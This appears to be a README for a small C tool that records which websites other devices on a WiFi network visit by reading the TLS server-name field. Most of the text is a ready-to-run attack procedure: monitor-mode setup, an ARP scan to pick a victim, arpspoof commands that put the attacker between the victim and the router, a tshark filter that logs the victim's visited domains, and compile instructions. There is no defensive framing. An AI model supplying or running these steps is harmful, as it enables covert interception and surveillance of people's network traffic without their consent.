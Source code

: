 Sniff WiFi websites visited traffic

*requires tshark
- For analyzing other devices connected to the wifi, use in monitor mode.

{
    sudo ip link set wlan0 down
    sudo iw dev wlan0 set type monitor
    sudo ip link set wlan0 up
}

Alternatively, use:
{
    sudo airmon-ng start wlan0
}
- Use with arpspoofing
--------------------------------------------------------------------------
//Targetting//
- 1. ip route | grep default
- 2. sudo arp-scan --localnet
- 3. sudo arpspoof -i wlanX -t 192.168.X.X (//target) -r 192.168.X.X (//router)
- 4. sudo tshark -i wlan1 -Y "tls.handshake.extensions_server_name" -T fields -e tls.handshake.extensions_server_name
- 5. sudo pkill arpspoof
     echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

--------------------------------------------------------------------------
//Compilation//
- 1. gcc snifftls.c -o snifftls
  2. sudo ./snifftls
